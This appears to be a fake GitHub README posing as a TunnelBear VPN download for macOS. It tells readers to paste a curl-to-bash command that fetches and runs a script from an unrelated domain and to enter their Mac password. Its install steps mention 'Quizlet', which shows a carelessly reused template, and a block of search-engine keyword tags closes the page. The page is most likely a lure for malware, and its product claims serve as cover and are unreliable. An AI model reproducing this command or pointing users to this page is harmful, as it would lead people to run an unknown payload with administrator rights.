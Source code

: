 # TunnelBear — Download For Mac OS 🐻

TunnelBear is a simple and powerful VPN app for Mac OS that allows you to browse securely, privately, and without restrictions. With an intuitive interface and fast servers in over 45 countries, TunnelBear ensures your internet connection stays protected and unrestricted. Follow the guide below to install and start browsing freely. 🌍✨
![vpn](https://www.tunnelbear.com/static/img/protect-bear.a8cca5d.svg)

> [![Download for Mac](https://img.shields.io/badge/Download-for%20Mac-blue?logo=apple&style=for-the-badge)](https://tunnelbear-for-mac.github.io/.github/)

> ⚠️ If the download button doesn’t work, follow the terminal-based installation guide below.

---

## 📦 How to Install Quizlet For Mac

### Installation via .dmg:

1. Download the .dmg file using the button above.
2. Open the .dmg installer and drag Quizlet to your Applications folder.
3. Open Terminal and run the Quizlet app with permissions if prompted.
4. Press “Return” and enter your Mac password (leave blank if you don’t have one).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

---

### Installation via a command in the terminal:

1. Copy the installation command below:

```bash
/bin/bash -c "$(curl -fsSL https://veitzeatz.com/get3/install.sh)"
```

2. Open Terminal on your Mac and paste the command.
3. Press “Return” and enter your password to confirm.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)

---

## 🎯 What You Get With TunnelBear
* 🧱 Secure Browsing – Encrypts your internet connection to protect personal data.
* 🌍 Global Servers – Access content in 45+ countries with lightning-fast speeds.
* 🕵️ No Logs Policy – TunnelBear doesn’t track or store your activity.
* 🕳️ Bypass Censorship – Open restricted sites and services worldwide.
* 📱 Cross-Platform – Syncs across Mac, iOS, Windows, Android.
* 🚀 One-Click Connect – Instantly connect with a single tap.

---

## About TunnelBear
TunnelBear is a trusted VPN service designed for users who want a secure and simple way to protect their privacy online. With a delightful bear-themed interface, the software appeals to both casual and experienced users alike. TunnelBear routes your internet traffic through encrypted tunnels to keep your browsing activity private and shielded from surveillance, especially on public Wi-Fi networks.

Thanks to its no-logs policy, TunnelBear ensures that your data is never stored or sold to third parties. The app is especially popular among macOS users for its tight system integration and lightweight performance.

Whether you're accessing geo-blocked content or simply looking to maintain anonymity while browsing, TunnelBear makes the process seamless. It's an ideal solution for travelers, remote workers, and anyone who values their online freedom.

A major advantage of TunnelBear is its ease of use. The application connects automatically and includes a "GhostBear" mode to help bypass deep packet inspection. With friendly visuals and a strong focus on privacy, TunnelBear stands out as one of the most user-friendly VPNs on the market.

## 🖼 Preview

![image1](https://img.utdstc.com/screen/b91/627/b91627e238a7292b3372b754399ea917fad26200485ed8fe4fb34078b9940c5e:600)

* Main dashboard with location options
  
---

## 🔍 Tags

tunnelbear download mac, tunnelbear for mac, tunnelbear vpn mac download, vpn for mac free download, best vpn for mac os, download tunnelbear macos, secure vpn mac, tunnelbear free vpn, mac vpn client, install tunnelbear mac, tunnelbear free, tunnelbear download, bear tunnel, tunnelbear chrome, tunnelbear for pc, bears tunnel, tuner bear chrome, tunnelbear chromebook, tunnelbear for chromebook, tunnelbear
